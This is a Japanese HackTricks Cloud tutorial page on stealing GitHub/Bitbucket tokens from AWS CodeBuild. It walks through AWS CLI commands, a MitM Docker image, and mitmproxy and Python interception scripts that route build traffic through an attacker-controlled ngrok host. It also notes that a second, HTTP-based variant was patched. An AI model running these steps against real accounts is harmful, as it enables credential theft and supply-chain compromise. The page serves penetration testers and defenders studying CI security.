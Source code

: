 # AWS Codebuild - トークンリーク

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングテクニックを共有する。

</details>

## Github/Bitbucketで設定されたトークンの回復

まず、リークする可能性のある設定済みのソースクレデンシャルがあるかどうかを確認します：
```bash
aws codebuild list-source-credentials
```
### Dockerイメージを介して

たとえばGithubへの認証がアカウントで設定されていることがわかった場合、特定のDockerイメージを使用してプロジェクトのビルドを実行するようにCodebuildを設定することで、そのアクセス（**GHトークンまたはOAuthトークン**）を**抜き取る**ことができます。

この目的のために、新しいCodebuildプロジェクトを**作成する**か、既存のものの**環境**を変更して**Dockerイメージ**を設定することができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは非常に基本的なDockerイメージで、**環境変数`https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定します。これにより、**`https_proxy`**と**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL証明書を信頼することができます。

1. **自分のDocker MitMイメージを作成してアップロードする**
* リポジトリの指示に従って、プロキシIPアドレスを設定し、SSL証明書を設定して**dockerイメージをビルド**します。
* メタデータエンドポイントへのリクエストを傍受しないように、**`http_proxy`を設定しないでください**。
* **`ngrok`**を使用して、例えば`ngrok tcp 4444`のようにプロキシをホストに設定することができます。
* Dockerイメージをビルドしたら、**パブリックリポジトリにアップロードします**（Dockerhub、ECR...）
2. **環境を設定する**
* 新しいCodebuildプロジェクトを**作成する**か、既存のものの環境を**変更する**。
* プロジェクトが**以前に生成されたDockerイメージ**を使用するように設定します。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **ホストにMitMプロキシを設定する**

* **Githubリポジトリ**に示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用された **mitmproxy のバージョンは 9.0.1** で、バージョン 10 ではこの方法が機能しない可能性が報告されています。
{% endhint %}

4. **ビルドを実行し、クレデンシャルをキャプチャする**

*   **Authorization** ヘッダーでトークンを確認できます：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

これは aws cli を使用して以下のように行うこともできます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTPプロトコル経由~~

{% hint style="success" %}
**この脆弱性はAWSによって2023年2月20日の週のいつか（金曜日だと思います）に修正されました。そのため、攻撃者はこれを悪用できなくなりました :)**
{% endhint %}

攻撃者は、**CodeBuildの権限を昇格させることで、設定されているGithub/Bitbucketトークンを漏洩させる**ことができます。また、OAuthを介して権限が設定されている場合は、**コードにアクセスするために使用される一時的なOAuthトークンを漏洩させる**ことができます。

* 攻撃者は、環境変数**http\_proxy**と**https\_proxy**をCodeBuildプロジェクトに追加し、自分のマシン（例えば `http://5.tcp.eu.ngrok.io:14972`）を指すように設定できます。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSではなくHTTPを使用するように変更します。例えば: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* そして、プロキシ変数（http\_proxyとhttps\_proxy）によって指定されたポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)からの基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトのビルド**をクリックすると、**認証情報**がクリアテキスト（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
これで攻撃者はトークンを自分のマシンから使用し、持っている権限をすべてリストし、CodeBuildサービスを直接使用するよりも簡単に（悪用）利用できるようになります。
{% endhint %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
